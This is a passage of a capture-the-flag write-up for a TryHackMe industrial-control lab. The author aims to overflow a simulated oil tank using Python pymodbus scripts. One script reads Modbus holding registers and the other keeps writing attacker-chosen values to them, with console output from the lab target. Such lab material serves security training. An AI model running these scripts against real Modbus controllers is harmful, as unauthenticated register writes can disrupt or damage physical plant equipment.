 
**VirtualPlant:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Attacking-ICS-Plant-2/images/a1.png)

Before we overflow the oil tank, **we must know which register is belong to which sensor.**

**To do so, I'll:**

- Run the `discovery.py` to observe all registries:

**discovery.py:**
```py
#!/usr/bin/env python3

import sys
import time
from pymodbus.client.sync import ModbusTcpClient as ModbusClient
from pymodbus.exceptions import ConnectionException

ip = sys.argv[1]
client = ModbusClient(ip, port=502)
client.connect()
while True:
    rr = client.read_holding_registers(1, 16)
    print(rr.registers)
    time.sleep(1)
```

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Attacking-ICS-Plant-#2]
└─# export RHOSTS=10.10.30.39

┌──(root🌸siunam)-[~/ctf/thm/ctf/Attacking-ICS-Plant-#2]
└─# python3 discovery.py $RHOSTS         
[1, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0]
[...]
```

- Run `set_register.py` to modify one of the registies:

**set_register.py:**
```py
#!/usr/bin/env python3

import sys
import time
from pymodbus.client.sync import ModbusTcpClient as ModbusClient
from pymodbus.exceptions import ConnectionException

ip = sys.argv[1]
register = int(sys.argv[2])
value = int(sys.argv[3])
client = ModbusClient(ip, port=502)
client.connect()

while True:
        client.write_register(register, value)
```
